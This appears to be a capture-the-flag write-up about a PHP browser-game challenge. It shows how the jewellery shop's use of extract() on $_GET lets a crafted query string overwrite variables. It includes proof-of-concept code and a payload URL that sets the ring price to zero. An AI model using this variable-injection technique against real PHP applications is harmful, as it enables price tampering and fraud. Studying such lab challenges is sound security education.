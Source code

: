 > *Pierścienie na wystawie wyglądają pięknie, ale nie są tanie...*

> *The rings on display look beautiful, but they are not cheap ...*

I go to the Jewelry shop (`Dębina -> [Zachodnia Strona]Jubiler`) and look on the `jewellershop.php`:

![4214279419449.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625405516842/EFD-WNR7D.png align="left")

My first tries with bank to get more money failed - after some thought, probably because it will modify the data on the server, potentially ruining the experience for other CTF players.

So, scrolling through the file, it looks like I could try crafting.

![2057584657671.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625405535225/mLLl0_PF-.png align="left")

Especially because it is using `extract()` function on `$_GET` variable. With this, we can modify effortlessly any variable that is accessible at the moment of `extract()` execution and possibly create new variables.

POC ([online](http://sandbox.onlinephpfunctions.com/code/e8fbccee22918963be688ca478ff982294ff3eaf)):

```php
$ringPrice=500;
$_fakeGET = ["ringPrice" => 0];

echo $ringPrice . "\n";
extract($_fakeGET);
echo $ringPrice . "\n";
```

![3432717486386.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625405581539/YH0dKhEh8.png align="left")

Now, because there is an unknown `craft()` function called, and we should at least provide these `material` and `inscription` arguments. Full proof of concept:

```php
#craft.php

# Example of double $ sign
# $a = ["c" => "d"];
# $b = "a";
# echo $$b["c"];
# Output: d

# Actual Payload:
# ?ringPrice=0&temp[material]=ring&temp[inscription]=r&craft=temp&buy=1

$ringPrice = 500;

if(isset($_GET['craft'])) {
    $item = $_GET['craft'];
    echo $item . "<br/>";
    echo $ringPrice . "<br/>";
    print_r($_GET);
    extract($_GET);
    echo $ringPrice . "<br/>";
    echo $$item["material"] . "<br/>";
    echo $$item["inscription"] . "<br/>";
    $material = $$item["material"];
    $inscription = $$item["inscription"];
    echo $material . "<br/>";
    echo $inscription . "<br/>";
}
```
